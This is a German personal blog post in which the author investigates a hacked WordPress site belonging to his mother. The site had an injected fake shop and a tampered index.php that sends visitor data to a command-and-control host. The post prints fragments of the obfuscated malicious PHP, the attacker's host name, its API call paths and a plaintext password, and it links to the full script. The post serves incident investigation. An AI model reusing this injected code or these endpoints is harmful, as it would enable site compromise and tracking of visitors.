 ```yaml
---
title: "Wordpress Hack"
date: "2021-08-01T19:30:00+02:00"
draft: false
author: "Marius Timmer"
keywords: ["Wordpress", "Hack", "Angriff", "Fakeshop", "Hetzner", "PHP"]
tags: ["Technik"]
description: "as"
---
```


Hin und wieder helfe ich einigen Leuten in meinem Umfeld beim Aufsetzen
und Warten ihrer Internetseiten. So gucke ich immer wieder mal über
die WordPress-Installation meiner Mutter und stelle sicher, dass sie
auch ja alle Updates installiert hat. Einigen von euch stellen sich
die Nackenhaare beim Namen Wordpress wahrscheinlich schon auf (_so
geht es mir auch immer wieder_), aber am Ende bin ich da nur
die ausführende Kraft. Um das einmal klarzustellen: WordPress
ist ein einziges Sicherheitsrisiko. Das verwundert natürlich nicht,
wenn man bedenkt, wie weit verbreitet die Software ist. Sieht man
aber einmal in den Code erkennt man, dass es bei der Entwicklung
kein wirkliches Konzept gegeben hat oder es maximal versucht wurde
nachträglich einzubauen. Da es sich aber mit seinen ganzen Erweiterungen
um ein Gemeinschafts-Projekt handelt, ist es natürlich auch gar nicht
so einfach, einheitlichen und guten Code zu schreiben. Abe rich wäre
ja schon zufrieden, wenn die Datenbank-Verbindung nicht in einer globalen
Variabel von überall aufzurufen wäre.

Der Fake-Shop
-------------
Anfang des Jahres meldete sich dann meine Mutter bei mir, da sich jemand
bei ihr erkundigt hatte, wie der Status einer bestimmten Bestellung sei.
Er habe ein Ersatzteil für seine Modell-Eisenbahn bestellt, bisher aber
noch keine Reaktion erhalten. An dieser Stelle ist zu erwähnen, dass
meine Mutter keinen Shop führt, sondern Fortbildungen anbietet.

Sehr schnell meldete sie sich also bei mir und bat mich um Hilfe.
In der Tat war da ein Shop auf ihrer Seite, den keiner da hin gespielt
hatte. Er sah auch wirklich nicht gut aus, da einzelne Fragmente
(_Bilder, Preise, Beschreibungen_) einfach in die schon existierende
Seite meiner Mutter eingebettet wurden. Wer darauf rein fällt, bettelt
förmlich auch darum. Allerdings ist das natürlich dennoch ein großes
Problem. Schließlich ist da ein Shop von irgendwelchen Betrügern auf
der Seite meiner Mutter, die somit auch dafür (_juristisch_) verantwortlich
ist.

Ich fand heraus, welche Dateien betroffen waren. Es existierte ein
Verzeichnis (_`designthemes`_), welches ich einfach löschen musste.
Zudem wurde die `.htaccess`-Datei modifiziert, sodass Gäste auf
die Seiten im besagten Verzeichnis geleitet wurden. Der Säuberungsprozess
selbst ging also recht schnell. Einen Tag später wurde ich aber wieder
informiert, dass der Shop zurück sei. Das wunderte mich tatsächlich,
beantwortete mir aber die Frage aller Fragen: Wie ist der Shop da
hingekommen?

Die erste Reaktion bei solchen "_Einbrüchen_" ist natürlich erst einmal
der Austausch sämtlicher Passwörter. Um so erstaunter war ich dann aber,
als ich hörte, dass der Shop zurück sei. Ich schloss somit nun aber aus,
dass jemand die FTP-Zugangsdaten herausgefunden hat und sah mir die
WordPress-Installation meiner Mutter noch einmal näher an. Tatsächlich
fand ich ein kompromitiertes PHP-Skript und ein als gif-Datei getarntes
Skript, welche beim Aufruf durch Nutzer immer wieder angestoßen wurde
und unter Anderem den Shop wieder holte.

Bisher hatte ich noch nicht die Zeit gefunden, mir das Problem genaue
anzusehen. Wenn ich aber schon nicht die Ursache nicht so schnell finden
konnte, wollte ich zumindest die Symptome bekämpfen. Schließlich war
meine Mutter hier rechtlich angreifbar und auch ihre Google-Platzierung
litt natürlich darunter.

Was ich also machte, war ein kleines Skript zu schreiben, welches sich
alle 5 Minuten per FTP mit dem Server verbindet und prüft, ob das mysteriöse
Verzeichnis existiert. Wenn es gefunden wird, wird es direkt gelöscht und
die `.htaccess` wiederhergestellt. Das ist natürlich keine Dauerlösung,
aber die hereinzufallenden Besucher erhielten beim Klick auf die immer
weiter sinkenden Google-Ergebnisse nur noch <abbr title="Seite nicht
gefunden">404</abbr>-Seiten, womit das gröbste Problem schon einmal gelöst war.

Nun geht das schon einige Monate so, ich weiß aber noch immer nicht, wo
der Shop immer wieder her kommt. Die besagten beiden Skripte habe ich
mehrfach gelöscht und an anderen Stellen konnte ich keine Hinweise auf
weitere mysteriöse Dateien feststellen. Zumindest hatte ich einmal den
gesamten Dateibaum heruntergeladen und durchsucht. Daher werde ich mir
nun wohl den Code genauer ansehen. Ich sehe es als eine Art Schnitzeljagd
mit PHP-Code.

Die Subdomain
-------------
Seit letzter Woche betreibt meine Mutter eine weitere WordPress-Instanz
auf einer Subdomain. Von einem auf den anderen Tag war diese nicht mehr
zu erreichen. Daher bat sie mich wieder um Hilfe. Zwei Stunden lang sah
ich mir diverse Hetzner-Konfigurationen an und suchte den Grund, wieso
die Subdomain nicht lief. Viel zu spät bemerkte ich erst, dass die
Subdomain an sich funktionierte, allerdings gab das WordPress nur eine
leere Antwort zurück.

Zuerst verdächtigte ich sämtliche WordPress-Erweiterungen irgendeinen
Unfug zu treiben, zumal es eine Fehlermeldung in den Protokollen
bezüglich veralteter Funktionsaufrufe gab. Dann sah ich mir aber
_aus einer Laune heraus_ einfach mal die `index.php` an und sah,
dass sie ganz merkwürdig aussah. Ganz viel "_Security by obscurity_"
war da drin, was ich im Folgenden zeigen möchte.

Zuerst wird die Fehlerausgabe deaktiviert, weswegen meine Versuche mit der
Apache-Konfiguration Fehlermeldungen auszugeben alle scheiterten. Anschließend
werden merkwürdig benannte Strings definiert, die im Anschluss mit
verschiedenen Offsets ausgelesen werden, woraus sich z.B. auch der Hostname
des Control-Servers ergibt.
```php
//CX3_CX4
error_reporting(0);
header('Content-Type: text/html; charset=utf-8');
$OoooOO0 = 'czhnientytwoj';
$OOOOOO = "%71%77%65%72%74%79%75%69%6f%70%61%73%64%66%67%68%6a%6b%6c%7a%78%63%76%62%6e%6d%51%57%45%52%54%59%55%49%4f%50%41%53%44%46%47%48%4a%4b%4c%5a%58%43%56%42%4e%4d%5f%2d%22%3f%3e%20%3c%2e%2d%3d%3a%2f%31%32%33%30%36%35%34%38%37%39%27%3b%28%29%26%5e%24%5b%5d%5c%5c%25%7b%7d%21%2a";
$O = urldecode($OOOOOO);
```

Ganz grob lässt sich sagen, dass das Skript möglichst viele Informationen
sammelt und dann an den eigenen Server weiter gibt (_nach Hause telefoniert_):

 - Dokumenten-Root-Verzeichnis
 - Angefragte URL
 - Hostname
 - Sprache
 - User-Agent (_benutzter Browser_)
 - Referrer (_Von wo der Nutzer weiter geleitet wurde_)
 - Verschlüsselte Kommunikation oder nicht (_`HTTP`/`HTTPS`_)
 - Ggf. abweichendes Protokoll
 - IP des Nutzers

Diese Daten werden gesammelt und anschließend an `czhnientytwoj.fluux.xyz` übermittelt. Den Host-Betreiber der Domain habe ich bereits informiert und eine Antwort steht noch aus. Beim nach Hause telefonieren werden die gesammelten Daten zum einen übertragen, aber vor allem wird auch die "_<abbr title="Schnittstelle">API</abbr>_" des angreifers angesprochen. Dabei wird jedes mal ein Passwort übertragen, dass im Klartext vorhanden und gar nicht mal so gut ist. Es lautet nämlich `sl123`. Das ist aber höchst wahrscheintlich nicht schlimm, weil der Angreifer das sowieso nur nutzt, um genau diese Befehle auszuführen, die in diesem Skript getätigt werden. Bei jedem Besuch der Seite wird somit der Angreifer informiert, dass die Seite meiner Mutter noch online ist und jede Veränderung der übertragenen Daten fällt auch sofort auf.

Insgesamt werden die folgenden (_API-_)Aufrufe getätigt:

```php
/Api/siteAllMap.php?page=' . $rUrl . '&pwd=sl123&domain=' . $typeName
/Api/siteUrlApi.php?stype=sitemap&num=6000&pr=' . $pr . '&url=' . $rUrl . '&domain=' . $typeName . '&ip=' . $client_ip
/jump.php?domain=' . $sName . '&page=' . $rUrl . '&bot=0&pr=' . $pr . '&refer=' . $referer . '&ip=' . $client_ip . '&lg=' . $Ooolg
/918.php?domain=' . $sName . '&page=' . $rUrl . '&bot=1&pr=' . $pr . '&ip=' . $client_ip . '&lg=' . $Ooolg
/org.php?domain=' . $sName . '&page=' . $rUrl . '&pr=' . $pr . '&ip=' . $client_ip . '&lg=' . $Ooolg
```

Somit weiß ich auf jeden Fall, wo ich in den kommenden Tagen ansetzen
und meine Schnitzeljagd fortsetzen kann. Wenn ihr auch Interesse haben
solltet, eröffne ich hiermit die Jagd. Das PHP-Skript könnt ihr als
Text-Datei [hier](/attachments/index_hacked.txt) herunterladen.

Interessant finde ich auch, dass sich der _Angreifer_ nicht die Mühe
gemacht hat, die beiden Zeilen am Ende anzufügen, durch die Wordpress
aufgerufen wird. Wären diese beiden Zeilen dort, wäre der "_Hack_"
vermutlich nicht einmal aufgefallen.

Am Ende frage ich mich nun aber noch immer, wie die beiden Angriffe
funktionieren, damit ich das verhindern kann. esucher der Seite können
eigentlich nichts hochladen. Auch wenn auf der Seite sogar die Kommentarfunktion
ohne Captchas aktiviert war. Seit gestern ist das zumindest auch anders.
Aber ich bezweifle, dass der Angriff jedes mal über die Funktion kommt.
Es bleibt also spannend.
